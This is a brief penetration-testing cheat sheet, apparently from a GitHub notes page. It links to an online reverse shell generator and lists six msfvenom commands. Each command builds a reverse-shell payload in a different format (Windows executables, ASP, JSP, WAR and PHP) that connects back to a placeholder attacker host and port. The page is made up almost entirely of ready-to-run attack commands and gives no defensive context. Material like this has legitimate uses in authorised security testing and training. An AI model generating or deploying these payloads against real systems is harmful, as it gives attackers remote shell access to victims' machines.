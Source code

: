 ### Reverse Shell Generator
```url
https://www.revshells.com/
```
### 

### msfvenom
- `msfvenom -p windows/shell/reverse_tcp LHOST=<IP>LPORT=<PORT>-f exe >shell-x86.exe`
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP>LPORT=<PORT>-f exe >shell-x64.exe`
- `msfvenom -p windows/shell/reverse_tcp LHOST=<IP>LPORT=<PORT>-f asp >shell.asp`
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP>LPORT=<PORT>-f raw >shell.jsp`
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP>LPORT=<PORT>-f war >shell.war`
- `msfvenom -p php/reverse_php LHOST=<IP>LPORT=<PORT>-f raw >shell.php`
